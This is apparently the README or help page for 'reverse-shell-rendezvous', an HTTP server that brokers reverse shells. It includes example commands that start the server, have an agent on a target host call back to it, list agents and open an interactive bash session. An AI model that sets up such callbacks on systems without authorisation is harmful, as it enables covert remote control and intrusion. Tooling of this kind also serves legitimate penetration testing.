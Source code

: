 ## reverse-shell-rendezvous

An http server listening for agents and clients

### Synopsis

The rendezvous is an http server listening for agents and clients.	It can run behind a reverse-proxy and that reverse-proxy could to SSL offloading.

```
reverse-shell-rendezvous [flags]
```

### Examples

```
Start the rendezvous and the agent:
# On the rendezvous (1.2.3.4)
$ rendezvous -P 7777

# On the agent (3.4.5.6)
$ agent websocket -U http://1.2.3.4:7777

Open a shell and send some commands
# List the agents
$ ./client list-agents -U http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ client create -U http://1.2.3.4:7777 3.4.5.6:65000
Attaching to admiring_meitn
Connected to admiring_meitn
bash-3.2$

```

### Options

```
  -h, --help          help for reverse-shell-rendezvous
      --port int32    remote port to connect to (default 8080)
  -v, --verbose int   Be verbose on log output
```

